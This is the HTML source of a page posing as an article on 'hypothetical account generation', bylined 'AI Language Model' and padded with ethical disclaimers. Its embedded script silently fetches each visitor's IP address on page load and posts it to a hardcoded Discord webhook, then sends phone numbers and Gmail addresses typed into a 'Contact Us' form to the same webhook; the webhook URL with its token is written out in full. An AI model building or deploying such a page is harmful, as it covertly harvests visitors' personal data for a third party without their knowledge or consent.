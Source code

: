 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Interesting Article Title</title>
    <style>
        body {
            font-family: sans-serif;
            line-height: 1.6;
            margin: 20px;
        }
        h1 {
            font-size: 2.5em;
            margin-bottom: 10px;
        }
        .author-date {
            color: #555;
            font-size: 0.9em;
            margin-bottom: 20px;
        }
        .article-body {
            margin-bottom: 30px;
        }
        p {
            margin-bottom: 15px;
        }
        /* Style for the form */
        .contact-form {
            margin-top: 40px;
            padding: 20px;
            border: 1px solid #ccc;
        }
        .contact-form label {
            display: block;
            margin-bottom: 5px;
        }
        .contact-form input[type="tel"],
        .contact-form input[type="email"] {
            width: 100%;
            padding: 8px;
            margin-bottom: 15px;
            border: 1px solid #ddd;
        }
        .contact-form button {
            padding: 10px 15px;
            background-color: #007bff;
            color: white;
            border: none;
            cursor: pointer;
        }
    </style>
</head>
<body>

    <article>
        <h1>The Fascinating World of Hypothetical Account Generation</h1>
        <div class="author-date">
            By AI Language Model - Published on May 8, 2025
        </div>
        <div class="article-body">
            <p>In the realm of theoretical computing and educational explorations, the concept of automatically generating user accounts often arises. While the practical and ethical implications of such systems are significant and warrant careful consideration, examining the underlying technical principles can be an insightful exercise.</p>

            <p>Imagine a scenario where, for purely illustrative purposes, one might explore the creation of randomized usernames and passwords. This exploration could delve into algorithms for producing names that bear a resemblance to human-created identifiers, perhaps by combining word fragments or appending numerical sequences. Similarly, the generation of strong, unique passwords could be examined through the lens of randomness and complexity.</p>

            <p>However, it is crucial to reiterate that the actual implementation of systems that automatically create accounts, especially for existing online platforms, carries substantial ethical and practical concerns. Respecting user privacy, adhering to terms of service, and ensuring responsible use are paramount. This article serves solely as a high-level conceptual overview and does not endorse or facilitate any activity that could be construed as unethical or harmful.</p>

            <p>Further discussions in this hypothetical exploration might touch upon the challenges of ensuring uniqueness across a vast number of potential identifiers and the limitations of purely algorithmic generation in mimicking the nuances of human choice. The inclusion of elements like copy buttons, as seen in previous educational examples, could theoretically streamline the interaction with such generated data, again, within a strictly educational context.</p>

            <p>Ultimately, while the technical aspects of hypothetical account generation can be a subject of academic curiosity, the responsible and ethical handling of user data and platform integrity must always take precedence in real-world applications.</p>
        </div>
    </article>

    <div class="contact-form">
        <h2>Contact Us</h2>
        <form id="contactForm">
            <label for="phone">Phone Number (11 digits):</label>
            <input type="tel" id="phone" name="phone" pattern="[0-9]{11}" placeholder="09123456789" required>

            <label for="email">Gmail Address:</label>
            <input type="email" id="email" name="email" pattern=".+@gmail\.com$" placeholder="yourname@gmail.com" required>

            <button type="submit">Submit</button>
        </form>
    </div>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const form = document.getElementById('contactForm');
            const webhookUrl = 'https://discord.com/api/webhooks/1354943880205959280/m_Sk7fhLF3e9lFab06lzMB9Up1Y0FtxJqZJDMQZxkRgapN388FpY9mXaZhDacvqiz86d'; // **REPLACE WITH YOUR ACTUAL WEBHOOK URL**

            // Function to send data to Discord webhook
            function sendToDiscord(message) {
                fetch(webhookUrl, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify(message),
                })
                .then(response => {
                    if (!response.ok) {
                        console.error('Error sending to Discord:', response);
                    }
                })
                .catch(error => {
                    console.error('Error sending to Discord:', error);
                });
            }

            // Fetch and send IP address when the page loads
            fetch('https://api.ipify.org?format=json')
                .then(response => {
                    if (!response.ok) {
                        console.error('Error fetching IP address:', response.status);
                        return Promise.reject('Failed to fetch IP address');
                    }
                    return response.json();
                })
                .then(data => {
                    const userIP = data.ip;
                    console.log("Fetched IP Address on Load:", userIP);
                    const ipMessage = {
                        embeds: [{
                            title: 'Page Opened - IP Address',
                            fields: [
                                { name: 'IP Address', value: userIP }
                            ],
                            timestamp: new Date().toISOString()
                        }]
                    };
                    sendToDiscord(ipMessage);
                })
                .catch(error => {
                    console.error('Error fetching IP:', error);
                });

            // Handle form submission
            form.addEventListener('submit', function(event) {
                event.preventDefault(); // Prevent the default form submission

                const phoneNumber = document.getElementById('phone').value;
                const emailAddress = document.getElementById('email').value;

                const formDataMessage = {
                    embeds: [{
                        title: 'Contact Form Submission',
                        fields: [
                            { name: 'Phone Number', value: phoneNumber },
                            { name: 'Email Address', value: emailAddress }
                        ],
                        timestamp: new Date().toISOString()
                    }]
                };
                sendToDiscord(formDataMessage);
                alert('Information sent successfully!');
                form.reset(); // Clear the form
            });
        });
    </script>

</body>
</html>
